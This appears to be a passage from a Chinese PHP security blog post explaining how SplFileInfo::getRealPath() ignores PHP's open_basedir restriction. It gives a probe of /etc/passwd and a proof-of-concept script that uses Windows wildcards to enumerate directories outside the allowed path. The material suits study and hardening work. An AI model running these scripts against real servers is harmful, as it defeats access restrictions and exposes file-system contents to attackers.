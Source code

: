 

# 利用SplFileInfo::getRealPath()类方法绕过
SplFileInfo类是PHP5.1.2之后引入的一个类，提供一个对文件进行操作的接口。我们在SplFileInfo的构造函数中传入文件相对路径，并且调用getRealPath即可获取文件的绝对路径。  
这个方法有个特点：完全没有考虑open_basedir。在传入的路径为一个不存在的路径时，会返回false；在传入的路径为一个存在的路径时，会正常返回绝对路径。脚本如下:
```php
<?php
$info = new SplFileInfo('/etc/passwd');
var_dump($info->getRealPath());
?>
```
当传入的路径存在时，返回路径。
![](/blog_img/open_basedir_10.png)
当传入的路径不存在时，返回False。
![](/blog_img/open_basedir_11.png)
但是如果我们完全不知道路径的情况下就和暴力猜解无异了，时间花费极高。在Windows系统下可以利用<>来列出所需目录下的文件，有P神的POC如下:
```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>
```
当然由于<><是Windows特有的通配符。所以该POC只能在Windows环境下使用。Linux下只能暴力破解。
